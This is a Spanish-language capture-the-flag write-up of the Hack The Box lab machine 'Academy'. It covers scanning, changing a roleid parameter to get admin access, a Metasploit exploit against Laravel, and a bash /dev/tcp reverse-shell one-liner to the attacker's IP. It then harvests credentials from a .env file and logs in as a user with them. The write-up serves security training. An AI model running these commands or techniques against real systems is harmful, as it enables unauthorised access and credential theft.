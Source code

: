 ```yaml
---
layout: single
title: Academy - Hack The Box
excerpt: "Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root."
date: 2021-03-07
classes: wide
header:
  teaser: /assets/images/Academy-Hackthebox/academy.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Academy-Hackthebox/academy.png)

Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root.

## Escaneo de puertos

![](/assets/images/Academy-Hackthebox/nmap.png)

Puertos 22,80 y 33060 abiertos.
Empiezo por el 80. Accedo con el navegador a la ip 10.10.10.215 y me dice que no se puede abrir la página.
Veo que en el escaneo con nmap aparece el dominio academy.htb, lo añado al fichero hosts y ya me deja acceder con el nombre del dominio.

![](/assets/images/Academy-Hackthebox/web.png)

Lanzo gobuster para fuzzear los directorios y ficheros de la web.

![](/assets/images/Academy-Hackthebox/gobuster.png)

Mientras tanto me registro en la página y capturo la petición con burpsuite.
Veo que los parámetros que viajan en la petición son:
uid=ximo&password=ximo&confirm=ximo&roleid=0
Me llamala atención el parámetro roleid. Envío la petición al repeater y modifico el valor a 1.
Gobuster descubre una página que se llama admin.php, así que pruebo el usuario que he registrado con el roleid=1 y accedo como admin.

![](/assets/images/Academy-Hackthebox/admin.png)

Gobuster encuentra también un fichero readme dentro del directorio academy, que dice que se está usando un framework llamado laravel.

Me llama la atención esto : Fix issue with dev-staging-01.academy.htb
Lo añado al fichero hosts y accedo a la página.

![](/assets/images/Academy-Hackthebox/dev.png)

Sabiendo que el frameowrk usado es laravel empiezo a buscar vulnerabilidades relacionadas con este framework.
Encuentro un exploit para metasploit y decido usarlo.
Seteo el app_key, que me lo da la web del subdominio en la sección de environment, el rhosts academy.htb, lhost tun0 y vhost dev-staging-01.academy.htb y obtengo una shell.

![](/assets/images/Academy-Hackthebox/msf.png)

Me pongo a la escucha con rlwrap nc -lvnp 9001 y me lanzo una reverse shell para estar más cómodo
`bash -c 'bash -i >& /dev/tcp/10.10.14.191/9001 0>&1'`

Voy al directorio academy y con ls -a veo que hay un fichero .env que puedo leer y que contiene unas credenciales.

![](/assets/images/Academy-Hackthebox/creds.png)

En el directorio home hay varios usuarios, pruebo la contraseña con todos y hay uno que funciona.

```
su cry0l1t3
Password: mySup3rP4s5w0rd!!
```


